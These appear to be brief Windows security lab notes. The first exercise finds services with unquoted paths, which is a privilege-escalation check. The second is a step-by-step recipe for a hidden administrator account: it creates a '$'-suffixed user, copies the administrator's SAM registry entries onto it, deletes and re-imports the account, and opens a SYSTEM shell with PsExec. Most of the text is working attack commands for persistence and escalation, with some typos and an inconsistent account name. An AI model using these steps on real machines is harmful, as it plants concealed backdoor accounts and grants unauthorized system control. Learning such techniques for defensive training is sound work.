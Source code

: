 # Lab2
---
## Lab 2_1 find the unquoated service
- get-wmiobject win32_service | ?{$_.pathname -match <mark>"^`"{0,1}(C|c):*\\.*\s+.*\\.*"</mark>} | select Name, Pathname, State, ProcessID
- get-acl

---
## Lab2__2 Hidden account
1. net user goodman$ <passwd> /add
1. Export regedit 
    1. sam\domains\account\users\names\goodman$ as name.reg
    1. sam\domains\account\users\<admimistrator_id> as rource.reg
    1. sam\domains\account\users\<goodman$____id> as target.reg
1. Delete goodman$ account
1. Import sam and user reg: regedit /s <xxx>.reg
1. Us PSexec to get system cmd
    1. psexec -u hidden$ -p <passwd> cmd
    1. psexec -i-s cmd

